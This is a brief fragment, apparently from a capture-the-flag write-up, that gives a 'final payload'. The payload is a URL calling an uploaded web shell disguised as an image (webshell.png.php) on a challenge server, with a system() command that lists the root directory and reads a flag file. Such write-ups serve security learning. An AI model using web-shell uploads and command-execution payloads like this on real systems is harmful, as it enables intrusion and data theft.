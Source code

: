 * final payload

https://imgura.chal.h4ck3r.quest/dev_test_page/images/9e571584_webshell.png.php?code=system(%27cd%20/;ls%20-la;cat%20this_is_flaggggg%27);
